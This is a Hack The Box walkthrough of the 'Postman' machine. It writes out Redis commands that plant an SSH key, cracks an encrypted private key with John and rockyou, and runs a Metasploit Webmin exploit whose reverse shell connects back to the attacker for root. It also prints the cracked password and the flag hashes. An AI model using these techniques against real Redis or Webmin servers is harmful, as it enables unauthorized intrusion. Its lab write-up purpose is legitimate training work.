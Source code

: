 ```yaml
---
title: Postman
author: fieldraccoon
date: 2020-06-21 
categories: [hack-the-box, linux]
tags: [hack-the-box, redis, metasploit]
math: true
---
```

# Postman

Postman was an easy linux box that required use of the redis service for unauthenticated shell and then we use another exploit on webmin for root.

>Skills involved in this box
- enumeration
- redis exploitation
- priv esc

# USER

>Nmap

```bash
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 46:83:4f:f1:38:61:c0:1c:74:cb:b5:d1:4a:68:4d:77 (RSA)
|   256 2d:8d:27:d2:df:15:1a:31:53:05:fb:ff:f0:62:26:89 (ECDSA)
|_  256 ca:7c:82:aa:5a:d3:72:ca:8b:8a:38:3a:80:41:a0:45 (ED25519)
80/tcp    open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: The Cyber Geek's Personal Website
6379/tcp  open  redis   Redis key-value store 4.0.9
10000/tcp open  http    MiniServ 1.910 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We can see from our nmap that the ip is running port 6379 for redis, this is an instant alarm that we need to use that as redis is a rare occurance in htb which makes the path slighty more obvious.

We run a dirbuster but nothing interesting occured after looking at the output.

We head over to http://postman.htb:10000 to check whats there. It gives us a redirect to a login page for webmin.
The version is `MiniServ/1.910`

There were a few exploits listed with searchsploit o exploit-db but none of them worked for the webadmin either not on this box or needed creds so at this stage wasnt possible.

>Exploiting redis using redis-cli

If you dont already have this installed you can install it with `sudo apt-get install redis-server`

i will show the exploitation steps below:
```bash
ssh-keygen on our box.
chmod 400 /home/kali/.ssh/id_rsa.pub
in redis:

kali@kali:~/boxes/postman$ redis-cli -h 10.10.10.160
10.10.10.160:6379> CONFIG SET dbfilename "authorized_keys"
OK
10.10.10.160:6379> CONFIG SET dir "/var/lib/redis/.ssh"
OK
10.10.10.160:6379> flushall
OK
10.10.10.160:6379> exit

on our box:

kali@kali:~/boxes/postman$ echo -e '\n\n' >> blob.txt
kali@kali:~/boxes/postman$ cat ~/.ssh/id_rsa.pub >> blob.txt
kali@kali:~/boxes/postman$ echo -e '\n\n' >> blob.txt

Last step:

kali@kali:~/boxes/postman$ cat blob.txt | redis-cli -h 10.10.10.160 -x set ssh

kali@kali:~/boxes/postman$ redis-cli -h 10.10.10.160 save
```
Then we simply ssh into the box as redis using our private key. `ssh -i /home/kali/.ssh/id_rsa redis@10.10.10.160`

Reading `/etc/passwd` reveals the user Matt:
```bash
Matt:x:1000:1000:,,,:/home/Matt:/bin/bash
redis:x:107:114::/var/lib/redis:/bin/bash
```
So we assume we have to priv esc to matt in some sort of way.

After enumerating for a while we find an interesting file in `/opt`.
```bash
redis@Postman:~$ cd /opt
redis@Postman:/opt$ ls -la
total 12
drwxr-xr-x  2 root root 4096 Sep 11  2019 .
drwxr-xr-x 22 root root 4096 Aug 25  2019 ..
-rwxr-xr-x  1 Matt Matt 1743 Aug 26  2019 id_rsa.bak
redis@Postman:/opt$ cat id_rsa.bak
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: DES-EDE3-CBC,73E9CEFBCCF5287C

JehA51I17rsCOOVqyWx+C8363IOBYXQ11Ddw/pr3L2A2NDtB7tvsXNyqKDghfQnX
cwGJJUD9kKJniJkJzrvF1WepvMNkj9ZItXQzYN8wbjlrku1bJq5xnJX9EUb5I7k2
7GsTwsMvKzXkkfEZQaXK/T50s3I4Cdcfbr1dXIyabXLLpZOiZEKvr4+KySjp4ou6
cdnCWhzkA/TwJpXG1WeOmMvtCZW1HCButYsNP6BDf78bQGmmlirqRmXfLB92JhT9
1u8JzHCJ1zZMG5vaUtvon0qgPx7xeIUO6LAFTozrN9MGWEqBEJ5zMVrrt3TGVkcv
EyvlWwks7R/gjxHyUwT+a5LCGGSjVD85LxYutgWxOUKbtWGBbU8yi7YsXlKCwwHP
UH7OfQz03VWy+K0aa8Qs+Eyw6X3wbWnue03ng/sLJnJ729zb3kuym8r+hU+9v6VY
Sj+QnjVTYjDfnT22jJBUHTV2yrKeAz6CXdFT+xIhxEAiv0m1ZkkyQkWpUiCzyuYK
t+MStwWtSt0VJ4U1Na2G3xGPjmrkmjwXvudKC0YN/OBoPPOTaBVD9i6fsoZ6pwnS
5Mi8BzrBhdO0wHaDcTYPc3B00CwqAV5MXmkAk2zKL0W2tdVYksKwxKCwGmWlpdke
P2JGlp9LWEerMfolbjTSOU5mDePfMQ3fwCO6MPBiqzrrFcPNJr7/McQECb5sf+O6
jKE3Jfn0UVE2QVdVK3oEL6DyaBf/W2d/3T7q10Ud7K+4Kd36gxMBf33Ea6+qx3Ge
SbJIhksw5TKhd505AiUH2Tn89qNGecVJEbjKeJ/vFZC5YIsQ+9sl89TmJHL74Y3i
l3YXDEsQjhZHxX5X/RU02D+AF07p3BSRjhD30cjj0uuWkKowpoo0Y0eblgmd7o2X
0VIWrskPK4I7IH5gbkrxVGb/9g/W2ua1C3Nncv3MNcf0nlI117BS/QwNtuTozG8p
S9k3li+rYr6f3ma/ULsUnKiZls8SpU+RsaosLGKZ6p2oIe8oRSmlOCsY0ICq7eRR
hkuzUuH9z/mBo2tQWh8qvToCSEjg8yNO9z8+LdoN1wQWMPaVwRBjIyxCPHFTJ3u+
Zxy0tIPwjCZvxUfYn/K4FVHavvA+b9lopnUCEAERpwIv8+tYofwGVpLVC0DrN58V
XTfB2X9sL1oB3hO4mJF0Z3yJ2KZEdYwHGuqNTFagN0gBcyNI2wsxZNzIK26vPrOD
b6Bc9UdiWCZqMKUx4aMTLhG5ROjgQGytWf/q7MGrO3cF25k1PEWNyZMqY4WYsZXi
WhQFHkFOINwVEOtHakZ/ToYaUQNtRT6pZyHgvjT0mTo0t3jUERsppj1pwbggCGmh
KTkmhK+MTaoy89Cg0Xw2J18Dm0o78p6UNrkSue1CsWjEfEIF3NAMEU2o+Ngq92Hm
npAFRetvwQ7xukk0rbb6mvF8gSqLQg7WpbZFytgS05TpPZPM0h8tRE8YRdJheWrQ
VcNyZH8OHYqES4g2UF62KpttqSwLiiF4utHq+/h5CQwsF+JRg88bnxh2z2BD6i5W
X+hK5HPpp6QnjZ8A5ERuUEGaZBEUvGJtPGHjZyLpkytMhTjaOrRNYw==
-----END RSA PRIVATE KEY-----
```
It seems to be an old ssh key, lets see if we can crack it using `ssh2john.py`.
```/usr/share/john/ssh2john.py id_rsa > hash.txt```
```bash
kali@kali:~/boxes/postman$ sudo john -w=/home/kali/rockyou.txt hash.txt
[sudo] password for kali: 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 1 for all loaded hashes
Cost 2 (iteration count) is 2 for all loaded hashes
Will run 2 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
computer2008     (id_rsa)
```
And it worked! We get the password `computer2008` as the password for Matt.

We try reloging in with ssh as matt but it doesnt work.
We find if we just use `su Matt` and input the password it works completely fine. We then read our user flag.
```bash
edis@Postman:/opt$ su matt
No passwd entry for user 'matt'
redis@Postman:/opt$ su MAtt
No passwd entry for user 'MAtt'
redis@Postman:/opt$ su Matt
Password: 
Matt@Postman:/opt$ cd /home/Matt
Matt@Postman:~$ ls
user.txt
Matt@Postman:~$ cat user.txt
517ad0ec2458ca97af8d93aac08a2f3c
```

# ROOT

It turns out theese credentials work on the site for webmin so we can use the metasploit module that we saw earlier as we now have the needed creds to do so.

```bash
msf5 > use exploit/linux/http/webmin_packageup_rce
msf5 exploit(linux/http/webmin_packageup_rce) > show options

Module options (exploit/linux/http/webmin_packageup_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD                    yes       Webmin Password
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      10000            yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       Base path for Webmin application
   USERNAME                    yes       Webmin Username
   VHOST                       no        HTTP server virtual host


Payload options (cmd/unix/reverse_perl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Webmin <= 1.910


msf5 exploit(linux/http/webmin_packageup_rce) > set PASSWORD computer2008 
PASSWORD => computer2008
msf5 exploit(linux/http/webmin_packageup_rce) > set USERNAME Matt
USERNAME => Matt
msf5 exploit(linux/http/webmin_packageup_rce) > set rhosts 10.10.10.160
rhosts => 10.10.10.160
msf5 exploit(linux/http/webmin_packageup_rce) > set LHOST 10.10.xx.xx
LHOST => 10.10.14.5
msf5 exploit(linux/http/webmin_packageup_rce) > set SSL true
[!] Changing the SSL option's value may require changing RPORT!
SSL => true
msf5 exploit(linux/http/webmin_packageup_rce) > run

[*] Started reverse TCP handler on 10.10.xx.xx:4444 
[+] Session cookie: xxxxxxxxxxxxxxxxxxxxxxxxxxxxx
[*] Attempting to execute the payload...
[*] Command shell session 1 opened (10.10.xx.xx:4444 -> 10.10.10.160:53994) at 2020-06-13 11:34:22 -0400
id

uid=0(root) gid=0(root) groups=0(root)
cat /root/root.txt
a257741c5bed8be7778c6ed95686ddce

```
Thanks for reading hope you enjoyed.




